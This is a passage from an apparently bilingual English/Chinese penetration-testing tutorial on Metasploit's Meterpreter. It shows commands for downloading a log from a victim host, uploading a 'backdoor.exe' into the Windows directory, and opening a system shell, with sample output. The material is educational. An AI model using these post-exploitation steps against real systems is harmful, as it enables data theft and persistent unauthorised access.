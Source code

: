 ![exploring-the-victim-system.png](/img/in-post/ine/exploring-the-victim-system.png)

## Uploading and Downloading（上传和下载）
此外，您可以使用同名命令上传和下载文件。

```
meterpreter > download HaxLogs.log /root/
meterpreter > upload /root/backdoor.exe C:\\Windows # Note the backslash escaping 注意反斜杠转义
```

![uploading-and-downloading.png](/img/in-post/ine/uploading-and-downloading.png)

## Running an OS Shell（运行操作系统Shell）
您还可以运行标准操作系统shell。

```
meterpreter > shell
Process 2420 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd \
C:\>exit
meterpreter >
```
